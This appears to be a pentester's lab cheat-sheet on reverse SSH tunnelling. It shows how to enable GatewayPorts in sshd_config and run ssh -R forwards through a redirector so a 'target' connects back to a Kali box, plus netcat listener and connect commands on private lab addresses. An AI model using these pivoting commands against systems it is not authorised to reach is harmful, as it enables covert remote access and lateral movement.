


Reverse SSH
Probably needed fix for reverse ssh tunneling through ens33 port on linux box:
vim /etc/ssh/sshd_config
>append at the bottom>GatewayPorts clientspecified
service sshd restart
#Target initiates session to kali via 127.0.0.1:2222 (redirector)
ssh -p 22 root@ubuntu -R 127.0.0.1:2222:127.0.0.1:1111
#Use 192.168.20.117 as a redirector to connect to 192.168.21.122
ssh -p 22 root@192.168.20.117 -R 192.168.20.117:2222:127.0.0.1:1111
ssh squid@192.168.21.122
nc -nlv 127.0.0.1 -p 1111
nc 192.168.20.117 2222
